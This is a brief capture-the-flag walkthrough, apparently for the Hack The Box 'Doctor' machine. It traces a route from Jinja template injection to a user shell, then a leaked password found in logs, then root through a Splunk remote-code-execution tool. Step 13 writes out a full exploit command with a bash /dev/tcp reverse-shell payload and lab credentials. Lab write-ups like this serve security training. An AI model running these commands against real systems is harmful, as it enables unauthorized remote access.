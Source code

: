 ## Foothold

1. Run nmap to see that there are three ports running : 22,80,8089(splunk daemon)
2. Visiting the website we can see a contact info for doctors.htb, therefore adding doctors.htb to /etc/hosts
3. Visiting the website again we can see a login page for users. Try default creds doesn't work.
4. Create a new user and then see source, there is a /archive directory under beta testing. We can create a new message and see that the title is updated in the source of the archive page.
5. We can check for SSTI, through hacktricks cheatsheet and find out that Jinja is being used.
6. We can use our payload using popen (part of subprocess) to get a revshell OR just run the exploit written changing the LHOST and LPORT as it has been hardcoded.
7. We get a shell as the user 'web'

## Priv Esc

8. We can run linpeas and linenum and we can see that we are added to the adm group thus can read /var/log. We can grep for passwords from all the files or check the directory hits from the users. : grep -R /var/log | awk '{print $7}'. We can see there is a reset_password as GET request and the password is provided in the url.
9. We can try the password for shaun (the other user while enum)
10. We can cat out the user.txt.
11. There is a splunk daemon running, we can try loggin in with the new creds, it works.
12. https://github.com/cnotin/SplunkWhisperer2 : is the exploit we can use this exploit to get RCE and thus get a revshell back as root.
13. python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost LHOST --lport LPORT_TO_HOST_SERVER --username shaun --password Guitar123 --payload bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
14. We can get a root shell on the listener. Cat out the root.txt
